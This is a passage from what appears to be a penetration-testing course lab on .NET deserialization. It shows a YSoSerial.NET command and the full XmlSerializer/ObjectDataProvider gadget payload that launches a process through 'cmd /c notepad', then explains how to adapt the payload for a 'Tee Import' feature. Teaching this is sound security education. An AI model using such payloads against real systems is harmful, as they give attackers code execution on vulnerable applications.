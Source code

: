 ![image](kf8IHSF6Yo80.png)

## Example 2: XML, Tee Import Feature

Let's look at how we could use `YSoSerial.NET` to generate a payload for the second vulnerability; the `Tee Import` feature which took a serialized `XML` string as input to `XmlSerializer`.

The command remains the same, changing only the selected formatter from `Json.Net` to `XmlSerializer`:

```powershell
PS C:\htb> .\ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad" -o Raw

```

The output `YSoSerial.NET` gives us is similar to the payload we developed with the main difference being the `XAML` string passed to `XamlReader.Parse` is wrapped inside a `ResourceDictionary` whereas our payload passed a `string`:

```xml
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c notepad</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>

```

This time, however, we can't just copy-paste the payload. If you remember from a previous section, the type needed to be specified, and the `ExpandedWrapperOfXaml<SNIP>` node needed to be renamed to `Tee`. Once we make the changes, the payload does work as intended, resulting in a `notepad.exe` process spawning, but this highlights the importance of understanding how the attack works so that we can adapt payloads to work in the specific scenarios we come across:

